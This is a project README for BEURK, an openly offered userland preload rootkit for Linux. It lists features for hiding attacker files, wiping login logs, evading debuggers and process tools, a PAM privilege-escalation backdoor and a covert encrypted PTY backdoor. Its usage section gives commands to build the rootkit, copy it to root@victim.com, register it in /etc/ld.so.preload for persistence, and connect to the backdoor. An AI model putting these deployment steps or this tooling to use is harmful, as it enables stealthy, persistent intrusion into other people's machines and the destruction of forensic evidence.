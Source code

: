 BEURK
=====
[Getting Started] | [API Documentation] | [Contributing] | [TODO List]

[![Travis Build](https://travis-ci.org/unix-thrust/beurk.svg?branch=master)](https://travis-ci.org/unix-thrust/beurk)
[![Ready Issues](https://badge.waffle.io/unix-thrust/beurk.svg?label=Ready&title=Ready-Issues)](https://waffle.io/unix-thrust/beurk)
[![Coverage Status](https://img.shields.io/coveralls/unix-thrust/beurk.svg)](https://coveralls.io/r/unix-thrust/beurk)
[![Coverity Scan Build](https://img.shields.io/coverity/scan/4866.svg)](https://scan.coverity.com/projects/4866)
[![Jenkins Build](http://ci.zgun-family.eu/job/BEURK/badge/icon)](http://ci.zgun-family.eu/job/BEURK/)

**BEURK** is an userland [preload rootkit] for GNU/Linux, heavily focused
around anti-debugging and anti-detection.

> _**S'ils savaient, ils vomiraient ...**_
>
> *- The core team -*

[![Join the chat at https://gitter.im/unix-thrust/beurk](https://badges.gitter.im/Join%20Chat.svg)](https://gitter.im/unix-thrust/beurk)

-------------------------------------------------------------------------------

### Features ###
- Hide attacker files and directories
- Realtime log cleanup (on [utmp/wtmp])
- Anti process and login detection
- [ptrace(2)] hooking for anti-debugging
- [libpcap] hooking undermines local sniffers
- Bypass unhide, lsof, ps, ldd, netstat analysis
- PAM backdoor for *local privilege escalation*
- Furtive PTY backdoor client

### Usage ###
* **Compile**
```sh
    git clone https://github.com/unix-thrust/beurk.git
    cd beurk
    ./build beurk.conf
```
* **Install**
```sh
    scp libselinux.so root@victim.com:/lib/
    ssh root@victim.com 'echo /lib/libselinux.so >> /etc/ld.so.preload'
```
* **Enjoy !**
```sh
    ./client victim_ip:port # connect with furtive backdoor
```

### Dependencies ###

The following packages are required in order to build BEURK:

* **libpcap** - to avoid local sniffing
* **libpam** - for local PAM backdoor
* **libssl** - for encrypted backdoor connection

**Example on debian:**
```sh
    apt-get install libpcap-dev libpam-dev libssl-dev
```

-------------------------------------------------------------------------------

[![Throughput Graph](https://graphs.waffle.io/unix-thrust/beurk/throughput.svg)](https://waffle.io/unix-thrust/beurk/metrics)

* _**BEURK v 1.0 is in active development,**_
_**please checkout current [development branch].**_

> NOTE: **BEURK** is a recursive acronym for
> **B**EURK **E**xperimental **U**nix **R**oot **K**it

-------------------------------------------------------------------------------

[Getting Started]: https://github.com/unix-thrust/beurk/wiki
[API Documentation]: https://github.com/unix-thrust/beurk/wiki/API-Documentation
[TODO List]: https://github.com/unix-thrust/beurk/blob/master/TODO.md
[Contributing]: https://github.com/unix-thrust/beurk/blob/master/CONTRIBUTING.md

[preload rootkit]: http://volatility-labs.blogspot.fr/2012/09/movp-24-analyzing-jynx-rootkit-and.html
[utmp/wtmp]: http://man7.org/linux/man-pages/man5/utmp.5.html
[ptrace(2)]: http://man7.org/linux/man-pages/man2/ptrace.2.html
[libpcap]: http://en.wikipedia.org/wiki/Pcap#libpcap
[development branch]: https://github.com/unix-thrust/beurk/tree/dev
